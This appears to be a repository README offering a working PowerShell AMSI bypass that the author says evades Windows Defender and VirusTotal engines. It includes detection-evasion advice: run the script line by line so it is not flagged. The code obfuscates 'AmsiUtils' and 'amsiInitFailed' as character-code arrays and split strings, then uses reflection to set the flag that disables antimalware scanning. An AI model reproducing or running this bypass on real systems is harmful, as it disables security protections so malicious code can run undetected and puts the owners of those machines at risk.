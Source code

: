 This is an advanced ASMI bypass that currently isn't picked up by Windows defender or any of the anti virus softwares on VirusTotal.

You should run this script line by line, don't just execute it .\pwn.ps1 it might get detected if you do that.

But just running it line by line is undetected currently.

It's bypassed ASMI on prolabs from HackTheBox and even on my personal computer.

```powershell
$e=[Ref].('Assem'+'bly').GetType(([string]::Join('', [char[]](83,121,115,116,101,109,46,77,97,110,97,103,101,109,101,110,116,46,65,117,116,111,109,97,116,105,111,110,46,65,109,115,105,85,116,105,108,115))))
$n='Non'+'Public'
$s='Static'
$f=$e.GetField(([string]::Join('', [char[]](97,109,115,105,73,110,105,116,70,97,105,108,101,100))),($n+','+$s))
$t=[type[]]@([object],[bool])
$m=$f.GetType().GetMethod('Set'+'Value', $t)
$m.Invoke($f, @($null, $true))
```
